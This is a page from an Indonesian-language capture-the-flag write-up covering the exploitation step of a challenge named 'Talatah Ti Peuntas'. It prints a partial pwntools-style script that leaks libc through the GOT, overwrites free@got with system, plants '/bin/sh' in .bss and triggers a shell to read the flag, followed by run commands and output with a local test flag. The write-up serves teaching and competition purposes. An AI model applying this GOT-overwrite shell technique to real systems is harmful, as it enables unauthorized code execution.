

# Talatah Ti Peuntas — Eksploitasi

[← Overview](41-talatah-ti-peuntas.md) · [Index](index.md)

> **Langkah 7/10 — Eksploitasi.** Tersimpan di writeups/assets/talatah-ti-peuntas/exploit.py:
>
> **Titik penting:** python3 exploit.py \| tee 03-exploit-run.txt · NFX{LOCAL_TEST_FLAG_TALATAH}
>
> **Berikutnya:** [Flag](41-talatah-ti-peuntas-08-flag.md)

## 3.4 Script lengkap

Tersimpan di `writeups/assets/talatah-ti-peuntas/exploit.py`:

```python
parse(p, 0x18, 0x40, fake_node(PRINTF_GOT, b'LEAK', 8))
printf_addr = u64(view(p, 0))
libc_base = printf_addr - PRINTF_OFF
assert libc_base & 0xfff == 0

parse(p, 0x18, 0x40, fake_node(FREE_GOT, b'GOT', 8))
edit(p, 1, p64(libc_base + SYSTEM_OFF))     # free@got = system

parse(p, 0x18, 0x40, fake_node(BSS, b'SHELL', 8))
edit(p, 2, b'/bin/sh\x00')                  # .bss = "/bin/sh"

delete(p, 2)                                # free(BSS) -> system("/bin/sh")
p.sendline(b'cat flag.txt; echo END_PWN')
```

Menjalankan:

```bash
cd writeups/assets/talatah-ti-peuntas
echo 'NFX{LOCAL_TEST_FLAG_TALATAH}' > flag.txt
python3 exploit.py | tee 03-exploit-run.txt
```

## 3.5 Output asli

```text
[*] Starting local process '.../ld-linux-x86-64.so.2'
[+] printf=0x78c490a64080 libc=0x78c490a00000
[+] Receiving all data: Done (37B)
NFX{LOCAL_TEST_FLAG_TALATAH}
END_PWN
```

Fixture lokal berisi `NFX{LOCAL_TEST_FLAG_TALATAH}`; flag kompetisi ada di bagian 4.

### Evidence langkah ini



*Terminal evidence — `03-exploit-run.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-exploit-run.txt`](assets/talatah-ti-peuntas/03-exploit-run.txt)
